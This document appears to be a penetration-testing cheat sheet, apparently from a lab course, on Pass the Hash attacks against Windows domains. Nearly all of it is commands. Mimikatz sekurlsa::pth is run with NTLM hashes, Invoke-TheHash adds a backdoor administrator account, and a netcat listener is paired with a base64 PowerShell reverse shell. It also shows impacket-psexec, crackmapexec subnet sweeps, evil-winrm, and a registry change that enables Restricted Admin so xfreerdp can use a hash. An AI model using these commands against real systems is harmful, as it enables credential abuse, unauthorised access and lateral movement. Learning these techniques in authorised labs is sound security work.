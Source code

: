 
> A [Pass the Hash (PtH)](https://attack.mitre.org/techniques/T1550/002/) attack is a technique where an attacker uses a password hash instead of the plain text password for authentication. The attacker doesn't need to decrypt the hash to obtain a plaintext password. PtH attacks exploit the authentication protocol, as the password hash remains static for every session until the password is changed.

---

#### Pass the Hash from Windows Using Mimikatz:

```c
c:\tools> mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

1. `sekurlsa::logonpasswords`
2. `sekurlsa::ekeys`
3. `sekurlsa::pth`
4. `sekurlsa::msv`
5. `sekurlsa::dpapi`
6. `sekurlsa::credman`
7. `sekurlsa::tspkg`
8. `sekurlsa::pth /user:USERNAME /domain:DOMAIN /ntlm:NTLM_HASH`
9. `sekurlsa::minidump`

#mimikatz #pth 

## Pass the Hash with PowerShell Invoke-TheHash (Windows)

```
PS c:\htb> cd C:\tools\Invoke-TheHash\
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

#invoke-thehash #windows

#### Netcat Listener

```
PS C:\tools> .\nc.exe -lvnp 8001
listening on [any] 8001 ...
```

#netcat #nc

To create a simple reverse shell using PowerShell, we can visit [https://www.revshells.com/](https://www.revshells.com/), set our IP `172.16.1.5` and port `8001`, and select the option `PowerShell #3 (Base64)`, as shown in the following image.

```powershell-session
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e jherkjhekj"
```

#invoke-thehash 

## Pass the Hash with (Linux)

```
$ impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

```
$ crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

```
$ crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

```
$ evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

#impacket #impacket_psexec #crackmapexec #smb #evil-winrm #linux  
#### Enable Restricted Admin Mode to Allow PtH

```c
c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

```
$ xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

#xfreerdp 

